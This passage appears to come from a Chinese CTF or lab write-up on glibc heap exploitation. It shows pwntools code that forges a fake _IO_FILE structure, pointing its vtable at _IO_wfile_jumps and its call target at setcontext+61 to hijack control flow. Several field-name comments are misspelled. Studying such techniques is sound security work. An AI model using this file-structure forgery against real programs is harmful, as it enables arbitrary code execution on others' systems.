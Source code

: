 [![](assets/1699929779-d2dea1fc0090447c4f4e9d627fa68b28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001445-18dd82e8-7f1b-1.png)

[![](assets/1699929779-96fac50a7d39f7a206177fa9a89017c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001448-1a8c0114-7f1b-1.png)

## 三、构造 fake\_io

```plain
fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
```
